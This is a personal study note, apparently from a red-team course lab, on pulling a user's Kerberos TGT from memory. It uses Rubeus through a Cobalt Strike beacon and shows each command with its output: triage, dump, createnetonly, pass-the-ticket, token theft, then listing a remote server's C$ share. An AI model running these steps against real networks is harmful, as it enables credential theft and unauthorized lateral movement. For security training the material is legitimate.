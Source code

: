 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Extracting Kerberos Tickets]]  
___

## Description:  
Instead of using the NTLM hash or AES keys to request a TGT for the user, we can actually extract their TGTs directly from memory if they're logged onto a machine we control. Rubeus `triage` will list the Kerberos tickets in all the logon sessions currently on a system (if not elevated, it can only show tickets in your own logon session).

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

 ------------------------------------------------------------------------------------------------------------------ 
 | LUID    | UserName                     | Service                                       | EndTime               |
 ------------------------------------------------------------------------------------------------------------------ 
 | 0x462eb | jking @ DEV.CYBERBOTIC.IO    | krbtgt/DEV.CYBERBOTIC.IO                      | 5/12/2021 12:34:03 AM |
 | 0x25ff6 | bfarmer @ DEV.CYBERBOTIC.IO  | krbtgt/DEV.CYBERBOTIC.IO                      | 5/12/2021 12:33:41 AM |
 ------------------------------------------------------------------------------------------------------------------
```

jking has a logon session with LUID **0x462eb** and the **krbtgt** service means that this is a TGT. To extract it from memory, use Rubeus **dump**.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe dump /service:krbtgt /luid:0x462eb /nowrap

[*] Target service  : krbtgt
[*] Target LUID     : 0x462eb
[*] Current LUID    : 0x3e7

  UserName                 : jking
  Domain                   : DEV
  LogonId                  : 0x462eb
  UserSID                  : S-1-5-21-3263068140-2042698922-2891547269-1122
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 5/11/2021 2:34:03 PM
  LogonServer              : DC-2
  LogonServerDNSDomain     : DEV.CYBERBOTIC.IO
  UserPrincipalName        : jking@dev.cyberbotic.io

    ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
    ServiceRealm          :  DEV.CYBERBOTIC.IO
    UserName              :  jking
    UserRealm             :  DEV.CYBERBOTIC.IO
    StartTime             :  5/11/2021 2:34:03 PM
    EndTime               :  5/12/2021 12:34:03 AM
    RenewTill             :  5/18/2021 2:34:03 PM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  aes256_cts_hmac_sha1
    Base64(key)           :  oh0gqFF8D81ijGlce+jyc0yMtHYaDrl8AM0b4+BqO8E=
    Base64EncodedTicket   :

      [...ticket...]
```

Create a sacrificial logon session with `createnetonly` and take note of both the new **LUID** and **ProcessID**.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4872
[+] LUID            : 0x92a8c
```

Now use `ptt` to pass the extracted TGT into the sacrificial logon session using the `/luid` flag.
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]

[*] Action: Import Ticket
[*] Target LUID: 0x92a8c
[+] Ticket successfully imported!
```

Steal the access token of that process and access the target resource.

```
beacon> steal_token 4872
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:49:35   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/10/2021 09:52:08   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/29/2021 12:15:45   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     05/06/2021 09:50:19   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     05/11/2021 13:17:32   pagefile.sys
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:01 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

